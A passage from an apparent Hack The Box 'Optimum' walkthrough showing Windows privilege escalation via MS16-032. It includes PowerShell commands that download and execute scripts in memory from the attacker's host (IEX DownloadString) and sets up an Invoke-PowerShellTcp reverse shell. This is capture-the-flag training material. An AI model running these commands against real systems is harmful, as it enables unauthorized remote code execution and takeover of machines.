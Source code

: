 Switch to a new terminal and clone the latest version:

```text
root@kali:~/htb/optimumh# git clone https://github.com/rasta-mouse/Sherlock.git
Cloning into 'Sherlock'...
remote: Enumerating objects: 75, done.
remote: Total 75 (delta 0), reused 0 (delta 0), pack-reused 75
Unpacking objects: 100% (75/75), done.
```

In the Sherlock.ps1 script there's a function called Find-AllVulns, add this to the end of the script to get it to run when we execute.

Start a webserver on Kali, then switch back to my NC shell already connected to the box, and pull the script across:

```text
PS C:\Users\kostas\Desktop> IEX(New-Object Net.Webclient).downloadString('http://10.10.14.22:8000/Sherlock.ps1')
```

This will run the script to check, and I see it has lots of possibilities, but I go with this one:

```text
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```

Empire has a prebuilt module for this vulnerability, so get the whole project:

```text
root@kali:~/htb/optimumh# git clone https://github.com/EmpireProject/Empire.git
Cloning into 'Empire'...
remote: Enumerating objects: 12213, done.
remote: Total 12213 (delta 0), reused 0 (delta 0), pack-reused 12213
Receiving objects: 100% (12213/12213), 21.96 MiB | 3.01 MiB/s, done.
```

Add this to the end of the Invoke-MS16032 script, so it pulls a shell from my Kali:

```text
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/shell.ps1')"
```

Now make a copy my existing Invoke-PowerShellTCP.ps1 script so I can use it again, whilst first one is still being used:

```text
root@kali:~/htb/optimumh# cp Invoke-PowerShellTcp.ps1 shell.ps1
root@kali:~/htb/optimumh# nano shell.ps1
```

Change the last line to this:

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.22 -Port 1338
```
